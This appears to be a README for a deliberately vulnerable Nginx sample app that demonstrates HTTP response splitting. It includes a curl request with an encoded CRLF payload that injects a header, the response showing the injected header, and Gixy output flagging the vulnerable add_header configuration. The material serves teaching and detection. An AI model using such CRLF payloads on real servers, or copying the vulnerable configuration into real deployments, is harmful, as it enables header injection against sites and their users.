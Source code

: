 # Nginx HTTP response splitting sample app

There is a vulnerability in Nginx that can be caused by misconfiguration. One of them is `HTTP response splitting`.

![top](./screenshots/top.png)

```
$ curl -v localhost:3000/v1/see%20below%0d%0ax-crlf-header:injected.json
*   Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 3000 failed: Connection refused
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 3000 (#0)
> GET /v1/see%20below%0d%0ax-crlf-header:injected.json HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.17.10
< Date: Thu, 07 May 2020 19:16:33 GMT
< Content-Type: application/json
< Content-Length: 2
< Connection: keep-alive
< X-Action: see below
< x-crlf-header:injected
< 
* Connection #0 to host localhost left intact
OK
```

## How to use
Dockerfile exists. Sample app work on any port.

```
$ docker build -t nginx-splitting .
$ docker run -d -p 127.0.0.1:3000:80 nginx-splitting:latest
```

## Tools to find
[Gixy](https://github.com/yandex/gixy) is a tool to analyze Nginx configuration.

```
$ gixy vulnerable.conf 

==================== Results ===================

>> Problem: [http_splitting] Possible HTTP-Splitting vulnerability.
Description: Using variables that can contain "\n" or "\r" may lead to http injection.
Additional info: https://github.com/yandex/gixy/blob/master/docs/en/plugins/httpsplitting.md
Reason: At least variable "$action" can contain "\n"
Pseudo config:

server {

	location ~ /v1/((?<action>[^.]*)\.json)?$ {
		add_header X-Action $action;
	}
}

==================== Summary ===================
Total issues:
    Unspecified: 0
    Low: 0
    Medium: 0
    High: 1

```

## Licence
The MIT License
